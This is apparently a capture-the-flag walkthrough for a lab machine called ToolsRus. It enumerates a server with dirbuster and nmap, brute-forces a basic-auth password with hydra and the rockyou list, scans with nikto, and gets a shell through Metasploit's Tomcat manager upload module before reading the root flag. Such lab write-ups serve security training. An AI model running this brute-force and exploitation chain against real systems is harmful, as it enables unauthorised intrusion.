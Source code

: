 # ToolsRus

## Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit

# ToysRus

## Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

### What directory can you find, that begins with a "g"?

1. Use dirbuster, there is only one directory that begins with "g"

```Bash
dirbuster
```

![SCREEN01](https://github.com/user-attachments/assets/1b6bb738-59b8-4ba7-a024-c7b0e47c612f)
![SCREEN02](https://github.com/user-attachments/assets/1f05593f-6503-406c-8b8e-e7e70418b47d)

### Whose name can you find from this directory?

1. Just go to the endpoint

![SCREEN03](https://github.com/user-attachments/assets/a753ba28-f2ea-42a5-81ec-eb2a93a75fdf)

### What directory has basic authentication?

1. In dirbuster results there is one results with status 401

![SCREEN02](https://github.com/user-attachments/assets/8d05266d-5523-4e62-b919-4a765682e261)

### What is bob's password to the protected part of the website?

1. Use hydra

```Bash
hydra -l bob -P /root/Desktop/wordlists/rockyou.txt <IP> http-get /protected
```

- `-l`: Single username specification
- `-P`: Password list file path

![SCREEN04](https://github.com/user-attachments/assets/ec57e313-fb73-4f29-8853-9942b02e570e)

### What other port that serves a webs service is open on the machine?

1. This will be the next one after 80

```Bash
nmap -p- -sV <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports
- `-sV`: Probes ports to determine service/version info

![SCREEN05](https://github.com/user-attachments/assets/cff1ef5d-347b-4b4b-9a36-5df15c2e27f3)

### What is the name and version of the software running on the port from question 5?

It will be revealed after going to `http://<IP>:1234/`

![SCREEN06](https://github.com/user-attachments/assets/5384d412-b264-488f-ac81-5a466e1f0415)

### Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many docume0

```Bash
nikto -h http://<IP>:1234/manager/html -id bob:b**s
```

- `-h`: specifies the host (including port if non-standard)
- `-id`: provides credentials in username:password format

![SCREEN07](https://github.com/user-attachments/assets/0b7774db-1831-455c-b2e3-fd43442150db)

### What is the server version?

1. Use nikto on port 80

```Bash
nikto -h http://<IP>:80
```

- `-h`: Specifies the host target

![SCREEN08](https://github.com/user-attachments/assets/449b7d86-277a-4fa7-917b-e324c3aadee5)

### What version of Apache-Coyote is this service using?

1. We have found the answer in our nmap enumeration

![SCREEN05](https://github.com/user-attachments/assets/2c4b3f74-c026-4297-99a2-1a38f0a2a0cd)

### Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as?

1. Select the `multi/http/tomcat_mgr_upload`

```Bash
msfconsole
search tomcat
use 18
set RHOSTS <IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword b**s
run
shell
id
```

![SCREEN09](https://github.com/user-attachments/assets/dce5ca95-0de8-4826-844c-c0fb78434fbe)

### What flag is found in the root directory?

```Bash
cat /root/flag.txt
```

![SCREEN10](https://github.com/user-attachments/assets/aa2f3327-0754-474a-bd26-13332f536442)
